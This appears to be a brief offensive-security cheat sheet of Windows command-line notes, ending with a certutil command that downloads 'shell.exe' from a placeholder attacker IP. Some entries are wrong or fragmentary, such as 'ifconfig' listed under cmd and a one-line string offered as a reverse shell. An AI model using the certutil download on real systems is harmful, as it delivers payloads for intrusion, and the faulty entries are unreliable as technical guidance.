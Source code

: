 ## cmd

type - opens file

dir - lists files in directory

cd - change directory

#### get ip:
```cmd
ifconfig 
```

### open cmd reverse
```cmd
String cmd="cmd.exe";
```

### certutil
Certutil is a command-line tool for managing and verifying Certificate Services and components.
- **But** can be used to download files from a remote server.
```sh
certutil -urlcache -f <attacker-ip>/shell.exe # This command downloads a file from a remote server and saves it to the local machine.
```

